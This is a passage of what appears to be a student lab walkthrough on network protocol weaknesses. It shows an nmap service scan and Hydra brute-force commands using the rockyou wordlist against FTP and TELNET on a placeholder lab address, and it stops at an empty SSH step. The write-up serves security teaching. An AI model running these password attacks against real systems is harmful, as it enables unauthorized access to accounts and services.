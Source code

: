 # Network Protocol Vulnerability Lab Walkthrough

## A. Objective

The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. You will also analyze the security of these protocols and propose mitigation strategies.

## B. Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames
**Objective**: Identify potential usernames for brute force attacks.

**Steps**:
1. **Scan the Target VM**: We first performed an `nmap` scan to identify open ports for FTP, SSH, TELNET, and HTTP (ports 21, 22, 23, and 80).
   - Example `nmap` command:
```bash
     nmap -sV -p 21,22,23,80 192.168.X.X
```


### 2. Perform Brute Force Attacks

#### 2.1 FTP, TELNET, and SSH

**Assumed Username**: Based on enumeration or hints from the VM, we assumed the username is `msfadmin`.

**Tool Used**: Hydra & NetExec 
**Wordlist Used**: `/usr/share/wordlists/rockyou.txt

**Commands Used**:

- **FTP**:
  ```bash
  hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.X.X
  ```
- **TELNET**:
  ```bash
  hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt telnet://192.168.X.X
  ```
- **SSH**:
  
